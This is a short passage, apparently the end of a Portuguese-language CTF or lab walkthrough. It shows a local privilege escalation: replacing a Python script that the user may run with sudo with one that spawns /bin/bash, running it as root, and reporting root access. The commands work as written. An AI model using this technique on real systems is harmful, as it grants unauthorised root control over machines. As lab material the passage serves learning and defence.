
Vamos excluir esse arquivo e criar outro com o mesmo nome.
echo 'import os; os.system("/bin/bash")' > /home/iker/geo_ip.py

Agora é só da o comando que seremos root.
sudo /usr/bin/python3 /home/iker/geo_ip.py

somos root
R10